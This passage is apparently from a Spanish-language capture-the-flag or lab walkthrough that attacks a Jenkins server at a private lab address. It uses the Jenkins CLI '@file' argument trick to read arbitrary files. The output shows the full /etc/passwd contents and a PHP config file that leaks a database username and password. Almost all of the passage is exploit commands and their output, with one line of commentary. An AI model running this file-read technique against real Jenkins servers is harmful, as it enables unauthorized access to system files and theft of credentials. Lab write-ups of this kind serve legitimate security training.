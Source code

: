 ```bash
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin: No such agent "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin" exists.
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin: No such agent "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin" exists.
sys:x:3:3:sys:/dev:/usr/sbin/nologin: No such agent "sys:x:3:3:sys:/dev:/usr/sbin/nologin" exists.
george:x:1000:1000:george:/home/george:/bin/bash: No such agent "george:x:1000:1000:george:/home/george:/bin/bash" exists.
sync:x:4:65534:sync:/bin:/bin/sync: No such agent "sync:x:4:65534:sync:/bin:/bin/sync" exists.
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin: No such agent "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin" exists.
root:x:0:0:root:/root:/bin/bash: No such agent "root:x:0:0:root:/root:/bin/bash" exists.
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin: No such agent "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin" exists.
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin: No such agent "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin" exists.
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin: No such agent "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin" exists.
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin: No such agent "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin" exists.
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin: No such agent "messagebus:x:103:109::/nonexistent:/usr/sbin/nologin" exists.
bin:x:2:2:bin:/bin:/usr/sbin/nologin: No such agent "bin:x:2:2:bin:/bin:/usr/sbin/nologin" exists.
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin: No such agent "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin" exists.
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin: No such agent "sshd:x:105:65534::/run/sshd:/usr/sbin/nologin" exists.
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin: No such agent "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin" exists.
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin: No such agent "systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin" exists.
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin: No such agent "systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin" exists.
jenkins:x:106:112:Jenkins,,,:/var/lib/jenkins:/bin/bash: No such agent "jenkins:x:106:112:Jenkins,,,:/var/lib/jenkins:/bin/bash" exists.
geoclue:x:108:115::/var/lib/geoclue:/usr/sbin/nologin: No such agent "geoclue:x:108:115::/var/lib/geoclue:/usr/sbin/nologin" exists.
games:x:5:60:games:/usr/games:/usr/sbin/nologin: No such agent "games:x:5:60:games:/usr/games:/usr/sbin/nologin" exists.
```

Veo que funciona y de momento tengo capacidad de lectura de archivos, antes vi que habia un archivo **connect.php** voy a ver que contiene.

```bash
❯ java -jar jenkins-cli.jar -s http://192.168.2.8:8080/ -http connect-node "@/var/www/html/connect.php"
: anonymous no tiene el permiso Nodo/Connect
$password = "g30rg3_L3@k3D";: No such agent "$password = "g30rg3_L3@k3D";" exists.
$servername = "localhost";: No such agent "$servername = "localhost";" exists.
<?php: No such agent "<?php" exists.
$username = "george";: No such agent "$username = "george";" exists.
?>: No such agent "?>" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```
